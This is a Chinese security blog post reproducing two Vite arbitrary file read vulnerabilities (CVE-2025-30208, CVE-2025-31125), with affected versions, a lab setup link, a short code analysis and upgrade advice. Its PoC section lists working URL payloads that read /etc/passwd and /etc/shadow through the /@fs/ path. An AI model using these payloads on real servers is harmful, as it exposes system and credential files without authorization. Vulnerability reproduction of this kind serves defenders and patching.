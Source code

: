 #  【漏洞复现】Vite 任意文件读取漏洞   
PokerSec  PokerSec   2025-04-05 09:00  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。该漏洞允许攻击者通过构造特殊 URL 绕过 Vite 的文件访问限制，读取服务器上的任意文件内容。  
## 影响范围  
  
6.2.0 <= vite <= 6.2.3  
  
6.1.0 <= vite <= 6.1.2  
  
6.0.0 <= vite <= 6.0.12  
  
5.0.0 <= vite <= 5.4.15  
  
vite <= 4.5.10  
## CVE  
  
CVE-2025-30208  
  
CVE-2025-31125  
## 漏洞复现  
  
环境搭建：  
  
https://github.com/vulhub/vulhub/blob/master/vite/CVE-2025-30208  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotumiabo7ibokDPM4RBA8RLIE8FDBhibeQeLfheibiaNqueibD8lDaoQNugxqOg/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
/@fs/etc/passwd?raw??
/@fs/etc/passwd?import&raw??
```  
  
CVE-2025-30208  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotuX6AryNZr9k3o3SshXJqIWiavWZSGicMHSuicuQRiaYrCWqsYibpNLefOWPw/640?wx_fmt=png&from=appmsg "")  
  
CVE-2025-31125  
```
/@fs/etc/shadow?logo.svg?.wasm?init
/@fs/etc/passwd?import&?inline=1.wasm?init
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotugxw0yGvrnfYYaVOwlnKcSQvePnvViayJTXEsSu9tyHAxfC27KqgNYdw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotunobbSZbP2ibzZiaJ1qFwJicbZrq24mSicAM06QOmJkTnrribOMOFMFvO5mw/640?wx_fmt=png&from=appmsg "")  
  
满足id.endsWith(".wasm?init")，调用fileToUrl$1(this, id);也就是结尾需要满足.wasm?init  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotuj4KM5SlZ2oXBPEGLibWuIvoYbE4VUffzBkuYQ3DAvMHDsDJYTHFFQPQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotuc1Sjsa4lOoxFxN1YhvxcDBqk7gQlibEy3UlBNqUZ8yjz2nXkvkXf4Ow/640?wx_fmt=png&from=appmsg "")  
  
继续向下这里默认走的fileToDevUrl(environment, id)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeibotu24SDG00YR8GOQn01XicNXoK0LJt9SfTAJiasYf2cvtzx4xdNTb8ewOMg/640?wx_fmt=png&from=appmsg "")  
  
id调用cleanUrl生成file，会替换?#后面的内容，就只保留原始的数据了。如/etc/shadow?&raw??会被替换为/etc/shadow  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKUKZ2vlVnptmU2flmeiboturH47UrEVz5wIZuUyvkbIRPfBuIpqqWicIUtWMQaQCcicFmmXPhAbOGpw/640?wx_fmt=png&from=appmsg "")  
  
svg也能满足读取读取文件  
  
## 修复意见  
  
Vite 官方已发布安全补丁:  
https://vite.dev/  
  
请尽快通过 npm update vite 或手动升级到以上版本以修复漏洞。  
  
  
  
如有侵权，请及时联系删除。  
  
